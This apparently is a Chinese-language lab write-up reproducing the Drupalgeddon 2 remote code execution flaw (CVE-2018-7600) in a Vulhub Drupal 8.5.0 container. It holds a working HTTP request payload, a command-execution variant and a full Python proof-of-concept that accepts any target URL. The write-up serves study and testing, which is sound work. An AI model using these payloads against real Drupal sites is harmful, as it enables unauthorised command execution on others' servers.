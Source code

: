 # Drupal Drupalgeddon 2 远程代码执行漏洞 CVE-2018-7600

## 漏洞描述

Drupal 是一款用量庞大的CMS，其6/7/8版本的Form API中存在一处远程代码执行漏洞。相关分析如下：

- https://research.checkpoint.com/uncovering-drupalgeddon-2/

## 环境搭建

Vulhub执行如下命令启动drupal 8.5.0的环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/`将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

安装方式参考CVE-2014-3704

## 漏洞复现

向安装完成的drupal发送如下数据包：

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

![image-20220222194824997](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221948098.png)

参考[a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py)，成功写入文件hello.txt：

![image-20220222194214877](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221942007.png)

可以执行命令，将结果输出到1.txt

```
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo `ls -al` | tee 1.txt'}
```

查看1.txt文件内容，即`ls -al`命令执行结果

![image-20220222201852579](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202222018658.png)

## 漏洞POC

```python
#!/usr/bin/env python3
import sys
import requests

print ('################################################################')
print ('# Proof-Of-Concept for CVE-2018-7600')
print ('# by Vitalii Rudnykh')
print ('# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders')
print ('# https://github.com/a2u/CVE-2018-7600')
print ('################################################################')
print ('Provided only for educational or information purposes\n')

target = input('Enter target url (example: https://domain.ltd/): ')

# Add proxy support (eg. BURP to analyze HTTP(s) traffic)
# set verify = False if your proxy certificate is self signed
# remember to set proxies both for http and https
# 
# example:
# proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
# verify = False
proxies = {}
verify = True

url = target + 'user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' 
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo ";-)" | tee hello.txt'}

r = requests.post(url, proxies=proxies, data=payload, verify=verify)
check = requests.get(target + 'hello.txt', proxies=proxies, verify=verify)
if check.status_code != 200:
  sys.exit("Not exploitable")
print ('\nCheck: '+target+'hello.txt')
```

